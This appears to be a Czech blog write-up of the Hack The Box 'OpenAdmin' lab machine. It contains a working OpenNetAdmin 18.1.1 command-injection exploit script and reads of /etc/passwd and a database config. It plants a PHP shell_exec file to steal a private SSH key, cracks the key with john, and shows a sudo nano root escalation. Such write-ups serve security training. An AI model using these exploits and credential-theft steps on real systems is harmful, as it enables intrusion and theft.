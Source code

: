 ```yaml
---
layout: post
author: Tomáš Matějíček
title: "OpenAdmin"
date: 2020-01-04
tags: linux exploit sudo
---
```


[OpenAdmin](https://www.hackthebox.eu/home/machines/profile/222) je jednoduchý linuxový box. Počáteční přístup získáš využitím OpenNetAdmin RCE a na úroveň uživatele se posuneš díky nalezenému heslu. Pak pomocí SSH přesměrování portů získáš přístup k internímu webu a tím i k zašifrovanému SSH privátnímu klíči. Po prolomení hesla získáš přístup k druhému uživateli. Zvýšení oprávnění na správce provedeš pomocí kombinace sudo a nano.

### Vyhledání otevřených portů
`IP=10.10.10.171;ports=$(nmap -p- --min-rate=1000 -T4 $IP | grep ^[0-9] | cut -d "/" -f 1 | tr "\n"​ "," | sed s/,$//);nmap -p $ports -A -sC -sV -v $IP`
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:98:df:85:d1:7e:f0:3d:da:48:cd:bc:92:00:b7:54 (RSA)
|   256 dc:eb:3d:c9:44:d1:18:b1:22:b4:cf:de:bd:6c:7a:54 (ECDSA)
|_  256 dc:ad:ca:3c:11:31:5b:6f:e6:a4:89:34:7c:9b:e5:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Úprava /etc/hosts
10.10.10.171	openadmin.htb

### Vyhledání složek na serveru
`dirb http://openadmin.htb`
```
=> DIRECTORY: http://openadmin.htb/artwork/
=> DIRECTORY: http://openadmin.htb/music/
```

### Vyhlední odkazů
`wget -r -nd --delete-after -nv --ignore-tags=img,link,script http://openadmin.htb/music/`
```
URL:http://openadmin.htb/ona/
```
### Identifikace webové aplikace
`whatweb http://openadmin.htb/ona/`
```
http://openadmin.htb/ona/ [200 OK] Apache[2.4.29], Cookies[ONA_SESSION_ID,ona_context_name], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.10.10.171], Script[javascript,text/javascript], Title[OpenNetAdmin :: 0wn Your Network]
```

### Vyhledání exploitu
`searchsploit -w opennetadmin`

```
---------------------------------------------------------------------------------------------------------------------------- --------------------------------------------
 Exploit Title                                                                                                              |  URL
---------------------------------------------------------------------------------------------------------------------------- --------------------------------------------
OpenNetAdmin 13.03.01 - Remote Code Execution                                                                               | https://www.exploit-db.com/exploits/26682
OpenNetAdmin 18.1.1 - Command Injection Exploit (Metasploit)                                                                | https://www.exploit-db.com/exploits/47772
OpenNetAdmin 18.1.1 - Remote Code Execution                                                                                 | https://www.exploit-db.com/exploits/47691
---------------------------------------------------------------------------------------------------------------------------- --------------------------------------------
```

### Zobrazení a stažení exploitu
`curl https://www.exploit-db.com/raw/47691`
```
#!/bin/bash

URL="${1}"
while true;do
 echo -n "$ "; read cmd
 curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
```

`curl https://www.exploit-db.com/raw/47691 -o opennetadmin-exploit.sh`

### Spuštění exploitu
```
dos2unix opennetadmin-exploit.sh
chmod +x opennetadmin-exploit.sh
./opennetadmin-exploit.sh "http://openadmin.htb/ona/"
```

### Zjištění uživatelů na cílovém serveru
`cat /etc/passwd`
```
jimmy:x:1000:1000:jimmy:/home/jimmy:/bin/bash
mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false
joanna:x:1001:1001:,,,:/home/joanna:/bin/bash
```

### Zjištění přístupovéch údajů k databázi
`cat ./local/config/database_settings.inc.php`
```
$ona_contexts=array (
  'DEFAULT' => 
  array (
    'databases' => 
    array (
      0 => 
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => '__CENSORED__',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
);
```
### Přihlášení k ssh pomocí nalezeného hesla
`ssh jimmy@openadmin.htb`

### Vyhledání zapisovatelných složek
`find / -type d -writable 2> /dev/null`
```
/var/www/internal
```
### Zjištění konfigurace web-site
`cat /etc/apache2/sites-enabled/internal.conf`
```
Listen 127.0.0.1:52846

<VirtualHost 127.0.0.1:52846>
    ServerName internal.openadmin.htb
    DocumentRoot /var/www/internal

<IfModule mpm_itk_module>
AssignUserID joanna joanna
</IfModule>

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined

</VirtualHost>
```
### Přihlášení k ssh s přesměrováním portů
`ssh -L 52846:127.0.0.1:52846 jimmy@openadmin.htb`

### Vytvoření PHP souboru který zobrazí privátní klíč uživatele joanna
`echo "<?php echo shell_exec('cat /home/joanna/.ssh/id_rsa');" > /var/www/internal/key.php`

### Zobrazení PHP souboru na interní webu a získání privátního klíče
<http://127.0.0.1:52846/key.php>
```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,2AF25344B8391A25A9B318F3FD767D6D

kG0UYIcGyaxupjQqaS2e1HqbhwRLlNctW2HfJeaKUjWZH4usiD9AtTnIKVUOpZN8
.....
K1I1cqiDbVE/bmiERK+G4rqa0t7VQN6t2VWetWrGb+Ahw/iMKhpITWLWApA3k9EN
-----END RSA PRIVATE KEY-----
```
### Slovníkový útok na heslo privátního klíče
```
/usr/share/john/ssh2john.py OpenAdmin_joanna_id_rsa > OpenAdmin_joanna_id_rsa.john
/usr/sbin/john OpenAdmin_joanna_id_rsa.john --wordlist=/usr/share/wordlists/rockyou.txt
```
`__CENSORED__      (OpenAdmin_joanna_id_rsa)`

### Přihlášení k SSH pomocí privátního klíče
`ssh -i OpenAdmin_joanna_id_rsa joanna@openadmin.htb`

### Zobrazení obsahu souboru user.txt
`cat user.txt`
`__CENSORED__`

### Zobrazení nastavení sudo
`sudo -l`
```
    (ALL) NOPASSWD: /bin/nano /opt/priv
```

### Spuštění nano, zvýšení oprávnění a vypsání obsahu souboru root.txt
`sudo /bin/nano /opt/priv`
`Ctrl+R`
`Ctrl+X`
`cat /root/root.txt`
__CENSORED__

